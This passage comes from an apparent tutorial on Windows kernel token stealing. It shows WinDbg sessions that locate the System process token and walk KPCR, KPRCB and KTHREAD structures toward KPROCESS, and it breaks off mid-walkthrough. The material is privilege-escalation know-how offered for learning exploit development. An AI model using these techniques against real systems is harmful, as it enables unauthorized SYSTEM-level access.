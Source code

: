 kd> !process 83dbb020 1
PROCESS 83dbb020  SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 00185000  ObjectTable: 87801c98  HandleCount: 481.
    Image: System
    VadRoot 84b33cd8 Vads 8 Clone 0 Private 4. Modified 67365. Locked 64.
    DeviceMap 87808a38
    Token                             878013e0
    ElapsedTime                       <Invalid>
    UserTime                          00:00:00.000
    . . .
view rawtoken_stealing_3.raw hosted with ❤ by GitHub
Now that we know the token for the system process, we can switch to the cmd.exe process and find the location for the token for this process.

kd> .process /i 8570b5e8
You need to continue execution (press 'g' <enter>) for the context
to be switched. When the debugger breaks in again, you will be in
the new process context.
kd> g
Break instruction exception - code 80000003 (first chance)
nt!RtlpBreakWithStatusInstruction:
826c0110 cc              int     3
kd> dg @fs
                                  P Si Gr Pr Lo
Sel    Base     Limit     Type    l ze an es ng Flags
---- -------- -------- ---------- - -- -- -- -- --------
0030 82770c00 00003748 Data RW Ac 0 Bg By P  Nl 00000493
kd> !pcr
KPCR for Processor 0 at 82770c00:
    Major 1 Minor 1
	NtTib.ExceptionList: 88a573ac
	    NtTib.StackBase: 00000000
	   NtTib.StackLimit: 00000000
	 NtTib.SubSystemTib: 801da000
	      NtTib.Version: 0001c7c1
	  NtTib.UserPointer: 00000001
	      NtTib.SelfTib: 00000000

	            SelfPcr: 82770c00
	               Prcb: 82770d20
		. . .
view rawtoken_stealing_4.raw hosted with ❤ by GitHub
Get the structure at KPCR from the address found above
    kd> dt nt!_KPCR 82770c00
       +0x000 NtTib            : _NT_TIB
       +0x000 Used_ExceptionList : 0x88a573ac _EXCEPTION_REGISTRATION_RECORD
        . . .
       +0x0d8 Spare1           : 0 ''
       +0x0dc KernelReserved2  : [17] 0
       +0x120 PrcbData         : _KPRCB
    view rawtoken_stealing_5.raw hosted with ❤ by GitHub
    Get address of CurrentThread member (KTHREAD) at the +0x120 Offset
    kd> dt nt!_KPRCB 82770c00+0x120
       +0x000 MinorVersion     : 1
       +0x002 MajorVersion     : 1
       +0x004 CurrentThread    : 0x83dcd020 _KTHREAD
       +0x008 NextThread       : (null) 
       +0x00c IdleThread       : 0x8277a380 _KTHREAD
       +0x010 LegacyNumber     : 0 ''
       +0x011 NestingLevel     : 0 ''
         . . .
       +0x3620 ExtendedState    : 0x807bf000 _XSAVE_AREA
    view rawtoken_stealing_6.raw hosted with ❤ by GitHub
    Get address of ApcState member (KAPC_STATE). It contains a pointer to KPROCESS